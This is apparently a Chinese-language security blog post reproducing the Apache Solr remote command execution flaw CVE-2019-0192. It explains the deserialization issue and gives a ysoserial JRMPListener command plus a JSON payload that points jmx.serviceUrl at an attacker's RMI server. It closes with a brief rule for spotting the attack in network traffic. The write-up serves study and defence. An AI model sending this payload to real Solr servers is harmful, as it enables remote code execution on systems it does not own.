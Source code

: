 ```yaml
---
layout: post
title:  "Apache Solr 远程命令执行漏洞(CVE-2019-0192)" 
date:   2019-08-05 13:47:46
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Solr 远程命令执行漏洞(CVE-2019-0192)
cover: '/assets/img/posts/apachesolr.png'
---
```


## Apache Solr 远程命令执行漏洞(CVE-2019-0192)

### 漏洞概述

 Apache Solr中的ConfigAPI允许设置一个jmx.serviceUrl，它将创建一个新的JMXConnectorServerFactory，并通过“绑定”操作触发对目标RMI/LDAP服务器的调用。恶意的RMI服务器可以响应任意的对象，这些对象将在Solr端使用java的ObjectInputStream反序列化，这被认为是不安全的。这种类型的漏洞可以利用ysoserial工具。根据目标类路径，攻击者可以使用其中一个“gadget chain”来触发Solr端上的远程代码执行。

### 漏洞环境搭建

参考：[环境安装教程](https://blog.csdn.net/yalecaltech/article/details/88829590)

### 漏洞复现

1、环境成功运行之后，切换到 ysoserial.jar 的目录下，运行：

```cmd
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 Jdk7u21 calc.exe
# 其中 calc.exe 为需要执行的命令
```

使用 ysoserial.jar 在本地 1234 端口创建一个 rmi server，当反序列化数据 发送到 Server 中，然后 Server 中进行反序列化操作，并开启指定端口，然后在通过 JRMPClient 去发送攻击 payload 

2、使用 burpsuite 抓包 ip/solr/techproducts/config 

3、添加`content-type:application/json`和`content-length`

4、然后在 http_client_body 中插入 payload 

```html
{“set-property” : {“jmx.serviceUrl” : “service:jmx:rmi:///jndi/rmi://ysoserical's ip:ysoserical's port/obj”}}
```

### 流量分析

检测请求中是否包含 setProperty 方法，如果存在 setProperty 方法，且存在对 rmi 服务端的请求，则可以判定存在攻击行为

### 参考链接

[参考链接 from github](https://github.com/mpgn/CVE-2019-0192)

[参考链接 from 先知社区](https://xz.aliyun.com/t/4422)

